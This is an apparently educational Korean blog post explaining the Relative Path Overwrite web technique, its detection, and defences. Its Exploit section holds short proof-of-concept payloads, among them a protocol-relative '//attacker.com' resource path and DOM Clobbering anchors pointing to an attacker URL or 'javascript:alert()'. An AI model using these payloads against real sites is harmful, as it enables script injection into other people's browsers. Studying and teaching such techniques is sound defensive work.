 ```yaml
---
layout: post
title: Relative Path Overwrite
subtitle: RPO 상대 경로 사용 시 사용할 수 있는 기법
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - WEB
  - RPO
  - CSS_Injection
  - Relative_Path_Overwrite
  - DOM_Clobbering
  - Text_Injection
sidebar:
---
```


## Intro
Relative Path Overwrite(RPO)란 해석 그대로 "상대 경로 덮어쓰기"라는 공격 기법? 으로 주로 리소스를 불러오는 경로에서 상대 경로로 된 URL을 덮어씌워 의도치 않는 경로로 요청하게 하도록 하여 대상 파일을 덮어쓸 수 있는 취약점입니다.   
☑️보통 해당 취약점 자체로 활용되기 보다 다른 취약점들과 연계되어 활용됩니다.  

상대 경로란 URL에 `Host`가 포함되지 않은 경로로 `assets/js/config.js` 로 구성된 경로입니다.
> RPO에서 말하는 상대 / 절대 경로는 통상적으로 말하는 경로와 다를 수 있습니다.  
> Absolute URL : `https://victim.com/path`   
> Absolute Path : `/path`   
> Relative Path : `path`   
   
RPO는 해당 도메인에서 조작되는 것이기 때문에 `SOP`, `CSP` 등 다양한 보안 정책을 우회할 수 있습니다. 
## Detect & Exploit 
### Detect
어떤 공격과 연계를 하느냐에 따라 탐지 방법이 여러 개 있을 수 있습니다.
- 리소스(`<script src>`, `<link href>` 등) 주소에 관여할 수 있는 지 파악하면 됩니다.
- URL Rewrite가 적용되어 `victim.com/rpo.html`,  `victim.com/rpo.html/` 에 대해서 동일하게 `rpo.html` 를 내려주는 지 파악하면 됩니다.

### Exploit
#### 리소스 주소 관여 가능 시
단순하게 주소에 관여하는 것이 끝이긴 합니다... ㅎㅎ😅  
```HTML
# Path Traversal
/../../../../vuln.js

# Protocol relative URL
//attacker.com
```
#### URL Rewrite 적용되어 있을 시
이 경우 DOM Clobbering과 연계할 수 있습니다.
자체적으로 만든 동결(`freeze()`) 객체에 대해 아래의 방법으로 오류를 발생시켜 해당 객체를 불러오지 못하도록 한다면 DOM Clobbering 공격이 가능해 집니다.   
>해당 내용은 추후에 DOM Clobbering 주제로 글 작성 시 이관 예정입니다.   
```HTML
#config.js
window.CONFIG = {
	location: "/"
}

#victim.com/vuln.html -> victim.com/config.js
<script src="config.js"></script>

#victim.com/vuln.html/ -> victim.com/vuln.html/config.js -> error
<script src="config.js"></script>

#POC
<a id="CONFIG">1'deps</a>
<a id="CONFIG" name="location" href="https://attacker.com or javascript:alert()">2'deps</a>
```

추가적으로 하위 경로가 파라미터로 인식되어 브라우저 내에 표기될 시(Content Spoofing / Text Injection) 특정 조건 하에 공격이 가능하다고 합니다.  
```HTML
victim.com/vuln.html/PAYLOAD 접근 시
Server : victim.com/vuln.html 를 내려줌
Browser : victim.com/vuln.html/PAYLOAD/victim.css or victim.js 를 가져옴

victim.com/vuln.html/PAYLOAD/victim.css or victim.js 접근 시
PAYLOAD가 Error Page or vuln.html에 주입됨

-> 취약점 발생
```
> 어떤식으로 발생된다는 건지는 이해가 안돼서 우선 적기만 하고, 해당 내용은 더 공부 후 추가해보겠습니다...  

## Security Measures

단순하게 상대경로를 사용하지 않는 것이지만, 추가적으로 `<script src>`, `<link href>` 등 리소스를 불러오는 태그의 주소를 사용자가 임의로 수정하지 못하도록 하는 방안도 있습니다.  

## References
[Large-Scale Analysis of Style Injection by Relative Path Overwrite](https://dl.acm.org/doi/fullHtml/10.1145/3178876.3186090)   
[Relative Path Overwrite](https://support.detectify.com/support/solutions/articles/48001048955-relative-path-overwrite)   